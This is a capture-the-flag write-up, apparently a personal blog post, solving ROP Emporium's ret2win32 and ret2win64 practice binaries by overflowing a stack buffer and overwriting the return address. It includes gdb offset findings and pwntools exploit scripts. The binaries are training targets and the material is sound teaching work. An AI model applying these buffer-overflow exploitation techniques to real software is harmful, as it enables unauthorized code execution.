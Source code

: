 ```yaml
---
layout: post
title: "Ret2win32"
author: "Trojan187"
categories: ctf
tags: [practice,learning]
image: ret2win.png
---
```



## Table of Contents

1. [Introduction](#introduction)
2. [Analysis](#analysis)
3. [Plan](#plan)
4. [Solution](#solution)
4. [64bit](#64bit)


##  Introduction

The challenge provides us with the binary.

HINT from: [!https://ropemporium.com/challenge/ret2win.html](https://ropemporium.com/challenge/ret2win.html)
As it states; you'll feed each binary with a quantity of garbage followed by your ROP chain. In this case there is a magic method we want to call and we'll do so by overwriting a saved return address on the stack. Certainly nothing that could be called a 'chain' by any stretch of the imagination but we've got to start somewhere. We'll do a little RE to confirm some information but nothing serious

---
### ROP-Emporium: ret2win32

_Files:_ `ret2win32`

---

##  Analysis

Lets take a look at the properties of the binary.

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win32/checksec.PNG">

Using radare2 to analyze all referenced code.

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win32/r2_aaaa.PNG">

Print the disassembly of the ret2win() function.
NOTE* `0x08048662` This looks very interesting and a potential address that can be used if the registers can be controlled. 

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win32/r2_pdf_ret2win.PNG">

Creating a pattern of 100 characters to use to locate the segmentation fault

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win32/gdb_start_pattern_create.PNG">

Segmentation fault occured and EIP was overwritten by 'AFAA' `0x41414641`. The offset is located at 44 bytes. 
EIP can now be controlled.

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win32/gdb_EIP_Seg_fault.PNG">

##  Plan

The hint said there will not be chaining required, hmmm the solution may just be that simple. So I thought I would just input the address I noted `0x08048662` when disassembling the ret2win() function im `Image#3` above. 


```python

run <<< $(python -c 'print "A"*44 + "\x62\x86\x04\x08"')
```
Nice! It worked. 

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win32/gdb_flag.PNG">

And this is my final python script to exploit it.

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win32/flag.PNG">

##  Solution
##  32bit

```python

#!/usr/bin/python
from pwn import *

context(arch='x86', os='linux', endian='little', word_size=32)

binary_path = './ret2win32'
e = ELF(binary_path)
p = process(binary_path)

buf = "A" * 44
buf += p32(0x08048662)

print(p.recvuntil('!\n'))
p.sendline(buf)
p.interactive()



```

## 64bit

The challenge provides us with the 64bit binary.

---
### ROP-Emporium: ret2win64

_Files:_ `ret2win`

---

### Analysis

Lets take a look at the properties of the binary.

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win64/checksec.PNG">

Using radare2 to analyze all referenced code.

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win64//r2_aaaa_afl.PNG">

Print the disassembly of the ret2win() function.
NOTE* `0x00400815` This looks very interesting and a potential address that can be used if the registers can be controlled. 

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win64/r2_pdf_ret2win.PNG">

Creating a pattern of 100 characters to use to locate the segmentation fault

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win64/gdb_pattern_create.PNG">

Segmentation fault occured but this time RSP is holding 'AA0AAFAAb'. The offset is located at 40 bytes. 

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win64/gdb_seg_fault_offset.PNG">

### PLAN:

Same plan as the 32bit binary. Just input the address I noted `0x00400815` when disassembling the ret2win() function in `Image#3` above. 

```python
python -c 'print "A"*40+"\x15\x08\x40\x00\x00\x00\x00\x00\x00"' | ./ret2win
```
Nice! It worked. 

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win64/flag_1_line.PNG">

And this is my final python script to exploit it.

<img src="../../../../../assets/img/blogs/2020-04-21/ret2win64/flag.PNG">

```python

#!/usr/bin/python
from pwn import *

# 0x00400815 mov edi, str.Thank_you__Here_s_your_flag: ; 0x4009e0 ; "Thank you! Here's your flag:"

binary_path = './ret2win'
e = ELF(binary_path)
p = process(binary_path)

buf = "A" * 40

buf += p64(0x00400815)

print(p.recvuntil('!\n'))
p.sendline(buf)
p.interactive()



```



### END
---
